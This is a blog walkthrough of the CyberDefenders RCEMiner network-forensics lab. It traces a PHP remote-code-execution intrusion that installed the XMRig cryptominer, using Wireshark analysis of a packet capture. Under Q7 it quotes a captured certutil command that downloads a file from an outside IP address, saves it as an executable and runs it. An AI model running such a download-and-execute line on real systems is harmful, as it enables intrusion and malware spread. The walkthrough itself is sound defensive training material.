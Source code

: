 ```yaml
---
title: RCEMiner Lab Walkthrough
date: '2025-02-02'
tags: ['cyberdefenders', 'walkthroughs', 'wireshark', 'network traffic analysis']
draft: false
summary: Step-by-step walkthrough of CyberDefenders Network Forensics Lab RCEMiner
images: ['']
layout: PostSimple
---
```


This is a **medium** level **network forensic** lab by **CyberDefenders**. You can complete your analysis using either **Wireshark** or **Zui** by Brim if you prefer Zeek. Start by reading the scenario in the above image and then proceed to capture flags.

![RCEMiner](/static/images/RCEMiner/background.png)

<TOCInline toc={props.toc} asDisclosure />

### Q1 To identify the entry point of the attack and prevent similar breaches in the future, it’s crucial to recognize the vulnerability that was exploited and the method used by the attacker to execute unauthorized commands. Which vulnerability was exploited to gain initial access to the public webserver?

- On performing a quick search on Google. I was able to find out CVE number of the vulnerability. It corresponds to a crypto mining malware called XMRig ![Q1](/static/images/RCEMiner/Q1.png)
- Malware coming from this family is used to mine Monero (XMR) crypto currency. If you want to know more, I'm adding a link which includes reports, IOCs and yara rules [CoinMiner](https://bazaar.abuse.ch/sample/01c9940b468ce2a58f2bc52f5c8b7d0310451c994d798879ff653d92fbaf8719/#intel)

### Q2 A specific Unicode character is used in the exploit to manipulate how the server interprets command-line arguments, bypassing the standard input handling. What is the Unicode code point of this character?

- After visiting the first link mentioned in the last screenshot. We can see that `0xAD`unicode character being used in the exploit. You can verify by visiting [here](https://www.akamai.com/blog/security-research/2024-php-exploit-cve-one-day-after-disclosure)  ![Q2](/static/images/RCEMiner/Q2.png)

### Q3 The attacker executed commands to gather detailed system information, including CPU specifications, after gaining access. What is the exact model of the CPU identified by the attacker’s script?

- We should check if any clear text communication took place between the attacker and the victim's machine. Most of the times, at least in this scenario data is sent over `application/x-www-form-urlencoded` or using `multipart/form-data`. You can confirm this by going to `Statistics -> Protocol Hierarchy` ![Q3](/static/images/RCEMiner/Q3.png)
- From the above screenshot we know that cleartext communication is there. Let's add the filter `urlencoded-form`. Follow the `HTTP Stream` of first frame ![Q3-1](/static/images/RCEMiner/Q3-1.png)
- You should end up finding the output of the command used by the attacker to find out about server's exact model of CPU. Remove binary spaces and you'll be left with `Intel(R) Core(TM) i7-6700HQ` ![Q3-2](/static/images/RCEMiner/Q3-2.png)

### Q4 Understanding how malware initiates the execution of downloaded files is crucial for stopping its spread and execution. After downloading the file, the malware executed it with elevated privileges to ensure its operation. What command was used to start the process with elevated permissions?

- I started by searching for the `Start-Process` Powershell method which  is commonly used by attackers to run something with super user privileges. On following the `HTTP Stream` on first packet ![Q4](/static/images/RCEMiner/Q4.png)
- We could see that the attacker executed a command which starts a process `2.exe` with root privileges ![Q4-1](/static/images/RCEMiner/Q4-1.png)

### Q5 After compromising the server, the malware used it to launch a massive number of HTTP requests containing malicious payloads, attempting to exploit vulnerabilities on additional websites. What vulnerable PHP framework was initially targeted by these outbound attacks from the compromised server?

- On querying for `HTTP` packets. We can see that so many requests with `index/think\app` being common in them ![Q5](/static/images/RCEMiner/Q5.png)
- On performing a quick search it turns out that the framework being exploited here is a vulnerable version of `ThinkPHP` ![Q5-1](/static/images/RCEMiner/Q5-1.png)

### Q6 The malware leveraged a common network protocol to facilitate its communication with external servers, blending malicious activities with legitimate traffic. This technique is documented in the MITRE ATT&CK framework. What is the specific sub-technique ID that involves the use of DNS queries for command-and-control purposes?

- Twitter, IRC, HTTPs, DNS are commonly used by attackers for C2. Most try to blend in as much as possible. It helps attackers avoid detection and sometimes this makes it quite challenging for many of us to notice at first sight.
- Start by opening up `MITRE ATT&CK` Enterprise Framework which includes all the MITRE's TTPs or  common methods used by the attackers to carry out their malicious activities. Move to `Command and Control` section, you'll end up seeing a page like this  ![Q6](/static/images/RCEMiner/Q6.png)
- Since the question asks specifically for the MITRE C2 Technique including its sub technique used for communication using DNS queries. Our flag should be `T1071.004` in this scenario ![Q6-1](/static/images/RCEMiner/Q6-1.png)

### Q7 Identifying where the malware could be stored on a compromised system is crucial for ensuring the complete removal of the infection and preventing the malware from being executed again. The compromised server was used to host a malicious file, which was then delivered to other vulnerable websites. What is the full path where this malware was stored after being downloaded from the compromised server?

- Query -> `http contains "exe" and http.request.method == POST`
- Using the above query, we can analyze the POST request in each packet. You will end up with one common malicious POST Request being made in most of the HTTP requests ![Q7](/static/images/RCEMiner/Q7.png)

``` powershell
cmd.exe /c certutil -urlcache -split -f http://36.96.48.3:19490/spread.txt C:\ProgramData\spread.exe && C:\ProgramData\spread.exe
```

- `C:\ProgramData\spread.exe` is the exact location where this malware is being saved for future use or maintaining persistence. In real life scenario, we need to make sure that we eradicate it completely by removing any of its artifacts on our server.

### Q8 Knowing the destination of the data being exfiltrated or reported by the malware helps in tracing the attacker and blocking further communications to malicious servers. The compromised server was used to report system performance metrics back to the attacker. What is the IP address and port number to which this data was sent?

- I went to `Statistics -> Conversations` and then sorted ports in descending order. We can see many strange ports being used ![Q8](/static/images/RCEMiner/Q8.png)
- After examining traffic on port `19999` and `15502` I couldn't find any packet containing CPU runtime but when I started looking at traffic on port `9011` I was able to find the entire CPU statistics that were being transferred over port `9011` ![Q8-1](/static/images/RCEMiner/Q8-1.png)
- Our flag for this question would be IP address followed by its port number which is `218.244.58.70:9011`

### Q9 Identifying the specific cryptomining software used by the attacker allows for better detection and removal of similar threats in the future. The malware deployed specific software to utilize the compromised server's resources for cryptomining. What mining software and version was used?

- We know from `Q1`  the CVE of this Vulnerability and we also know that the attacker makes use of `XMRig` for mining `Monero`. I start by checking if any frame contains `XMRig` because it could be possible that the attacker uses another software for mining but here we could see `XMRig` being used. Follow `HTTP Stream` on any of the packet ![Q9](/static/images/RCEMiner/Q9.png)
- We could see mining software along with its version and that should be our last flag for this lab `XMRig/5.5.0` ![Q9](/static/images/RCEMiner/Q9-1.png)

Here's another great report if you want to check each IOC of this malware in detail. This malware is quite relevant in today's scenario of cybersecurity, you will commonly see it in top 10 or 20 of any.run trends. Check out analysis from [filescan.io](https://www.filescan.io/uploads/666c55d4910ce98966f9a44a/reports/3978492e-edf4-4757-96be-b7d94c06d67b/overview)


> If you've made this far, thank you for sticking by and congrats on completing this lab

